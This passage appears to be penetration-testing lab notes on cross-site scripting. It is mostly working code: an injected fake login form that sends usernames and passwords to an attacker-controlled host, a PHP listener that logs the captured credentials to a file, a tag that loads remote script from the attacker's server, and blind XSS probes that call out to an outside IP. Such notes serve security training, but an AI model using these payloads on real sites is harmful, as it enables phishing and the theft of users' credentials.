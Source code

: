 
&#x20;Here the url input is still displayed. To disable. Find the id of the element and remove

```js
document.getElementById('urlform').remove();
```

Final js:

```js
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

Insert this in payload.

To correctly receive the creds:

```bash
mkdir /tmp/tmpserver
cd /tmp/tmpserver
nano index.php #at this step we wrote our index.php file
sudo php -S 0.0.0.0:80
```

index.php:

```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

## Remote Script

```html
<script src="http://OUR_IP/script.js"></script>
```

change script.js to the field that is vulnerable

### Blind XSS

Send a request in each field like so and start the php server shown above:

```html
<script src=http://10.10.14.155/fullname></script>
```

Examples from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#exploit-code-or-poc)
